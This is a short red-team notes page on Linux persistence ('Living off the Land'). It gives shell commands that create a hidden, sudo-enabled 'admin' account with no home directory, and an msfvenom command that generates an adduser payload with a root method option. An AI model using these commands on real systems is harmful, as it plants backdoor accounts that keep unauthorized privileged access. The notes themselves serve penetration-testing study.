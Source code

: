 # Living off the Land

## 01 - Create user account

```
$ useradd -M -N -r -s /bin/bash admin

$ usermod -aG sudo admin

$ passwd admin
```

## 02 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/adduser user=<username> pass=<password> rootmethod=<SUID | SUDO | NONE> [checksudoers=<true | false>]
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Host Persistence/Remote Login/Create User/Malware Development/Helpers]]

### Linode

- [Linode: Linux Red Team Persistence Techniques](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/)